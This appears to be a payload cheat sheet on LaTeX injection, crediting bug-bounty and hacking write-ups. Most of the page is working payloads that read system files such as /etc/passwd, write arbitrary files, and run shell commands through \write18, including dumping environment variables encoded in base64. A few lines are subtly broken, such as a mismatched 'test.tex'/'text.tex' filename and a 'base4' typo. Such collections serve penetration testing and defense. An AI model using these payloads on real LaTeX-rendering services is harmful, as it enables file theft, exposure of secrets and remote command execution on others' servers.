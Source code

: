 # LaTex Injection

## Read file
```python
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file
```python
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file
```python
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline 
    \text{\fileline}
\repeat
\closein\file
```

## Write file
```python
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution
The input of the command will be redirected to stdin, use a temp file to get it.
```python
\immediate\write18{env > output}
\input{output}
```
If you get any LaTex error, consider using base64 to get the result without bad characters
```python
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```python
\input|ls|base4
```


## Thanks to
* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)